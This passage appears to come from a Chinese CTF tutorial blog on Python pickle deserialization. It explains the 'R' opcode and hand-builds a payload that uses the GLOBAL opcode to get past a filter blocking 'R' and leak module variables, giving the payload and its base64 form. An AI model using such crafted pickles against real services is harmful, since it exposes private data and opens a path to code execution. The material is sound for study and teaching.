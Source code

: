 ![](/blog_img/pickle3.png)
从上面的例子其实可以知道,PVM指令码中的R指令码其实就是\_
\_reduce\_\_方法的底层实现.


# 全局变量覆盖
我们来看看下面的代码:
``` python
import pickle
import test
import base64

class Stu():
    def __init__(self,name,date):
        self.name = name
        self.date = date

    def __eq__(self,other):
        return type(other) is Stu and 
        self.name == other.name
        and self.date==other.date

def check(data):
    if (b'R' in data):
        return 'Hacker!!!'
    x = pickle.loads(data)
    if (x != Stu(test.name,test.date)):
        return 'False!!!'
    return 'Success!'

print(check(base64.b64decode(input())))
```
对于这道题,我们需要传入一个data使之能够返回Success.关键之处在于test.name和test.date我们是不知道的,那么这时我们就需要来手写序列化字符串了.  
我们以上面的:
```
b'\x80\x03c__main__\nStu\n)\x81}(X\x04\x00\x00\x00nameX\x03\x00\x00\x00VonX\x04\x00\x00\x00dateJ\xd4;4\x01ub.'
```
为模板,我们只需要把编码'Von'和20200404的X\x03\x00\x00\x00Von和J\xd4;4\x01改为ctest\nname\n和ctest\ndate\n即可.Payload:
```python
b'\x80\x03c__main__\nStu\n)\x81}(X\x04\x00\x00\x00namectest\nname\nX\x04\x00\x00\x00datectest\ndate\nub.'
# base64后为:
gANjX19tYWluX18KU3R1CimBfShYBAAAAG5hbWVjdGVzdApuYW1lClgEAAAAZGF0ZWN0ZXN0CmRhdGUKdWIu
```
可以看到,成功输出Success.
![](/blog_img/pickle4.png)
